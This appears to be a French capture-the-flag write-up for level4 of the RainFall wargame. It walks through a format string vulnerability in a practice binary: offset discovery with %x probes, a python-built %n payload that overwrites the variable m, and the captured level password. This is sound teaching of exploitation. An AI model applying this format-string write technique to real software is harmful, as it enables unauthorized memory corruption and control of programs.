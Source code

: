   ```shell
    End of assembler dump.
  ```

  * On voit que p ne fait qu'un printf, comme le faisait la fonction v à l'exercice précédent.
  * La faille est donc la même que celle du level3 mais vu que l'on doit print + de 16M de chars, cela va prendre beaucoup de temps.

## 2: Comportement
> Une fois recomposé, on comprend que le main call juste n.\
> n, quand à elle, la meme chose que v lors du level3 mais call une fonction qui va call printf.

## 3: Exploit

### A: Explication

> cf. level3 ;)

### B: Creation de l'exploit

* Il nous faut donc: l'adresse de m, à partir de combien de parametres on va lire le debut de notre string, et c'est tout

```shell
  # Addresse de m (vu pendant l'analyse)
  gdb-peda$ x/s 0x8049810
    0x8049810 <m>:	 ""

  # On teste au bout de combien de paramètres on retombe sur nos AAAA
  level4@RainFall:/tmp$ echo 'AAAA.%x.%x.%x.%x.%x' | ~/level4
    AAAA.b7ff26b0.bffff734.b7fd0ff4.0.0
  # On voit ici que l'on ne tombe pas sur nos A. Normal, notre format string est plus loin vu que le printf est dans une autre fonction
  level4@RainFall:/tmp$ echo 'AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x' | ~/level4
    AAAA.b7ff26b0.bffff734.b7fd0ff4.0.0.bffff6f8.804848d.bffff4f0.200.b7fd1ac0.b7ff37d0.41414141.252e7825.78252e78.2e78252e
  # Pouf! 12ème argument
```

* On a donc tous les prérequis. En transformant en little indian l'addresse de m(\x10\x98\x04\x08), on va pouvoir construire la string suivante:

```shell
  level4@RainFall:/tmp$ python -c 'print "\x10\x98\x04\x08%1$16930112d%12$n"' > pattern4
```
* La syntaxe "%12$n" Veut dire qu'on prend le 12eme parametre (évite la répétition de random %)
* La syntaxe "%1$16930112d" veut dire qu'on met un padding de 16930112 avant notre premier parametre
* Donc 16930112 + les 4 de l'addresse, ca nous fait bien 16930116. Et le 12eme paramètre sera l'endroit où l'on stockera ce nombre

```shell
level4@RainFall:/tmp$ cat /tmp/pattern4 - | ~/level4 # ...A few moments later...
  [...]-1208015184
  0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
